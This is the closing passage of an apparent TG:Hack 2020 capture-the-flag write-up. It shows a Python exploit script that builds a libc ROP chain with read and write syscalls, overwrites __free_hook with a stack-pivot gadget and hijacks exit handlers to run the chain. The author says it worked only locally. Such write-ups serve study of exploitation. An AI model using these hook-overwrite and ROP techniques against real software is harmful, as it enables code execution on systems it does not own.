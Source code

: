 ```python
chain += p64(0x0)
chain += p64(0x39049 + base_addr)    # syscall
chain += p64(0xc4cc0 + base_addr)    # pop rdi; ret
chain += p64(0x0)
chain += p64(0x221ba + base_addr)    # mov esi, 0x415b0007; pop rsi; ret
chain += p64(buf_target+0x20)
chain += p64(0x12c561 + base_addr)    # pop rax; pop rdx; pop rbx; ret
chain += p64(0x0)
chain += p64(0x100)
chain += p64(0x0)
chain += p64(0x39049 + base_addr)    # syscall
chain += p64(0xc4cc0 + base_addr)    # pop rdi; ret
chain += p64(0x1)
chain += p64(0x221ba + base_addr)    # mov esi, 0x415b0007; pop rsi; ret
chain += p64(buf_target+0x20)
chain += p64(0x12c561 + base_addr)    # pop rax; pop rdx; pop rbx; ret
chain += p64(0x1)
chain += p64(0x100)
chain += p64(0x0)
chain += p64(0x39049 + base_addr)    # syscall

write_addr(hex(free_hook), hex(pivot_gadget))
write_addr(hex(exit_funcs), hex(input_addr))
write_block(exit_funcs+0x8, chain)
# call exit->calls __run_exit_funcs->calls free->__free_hook->stack pivot to libc rop chain
p.sendline('5')
p.interactive()
```

![flag](/assets/images/tghack2020/flag.jpg)

I only managed to solve this locally, I couldn't figure out what wasn't working on the remote server- maybe some wrong offset somewhere. Still a fun challenge, which I learned a lot from
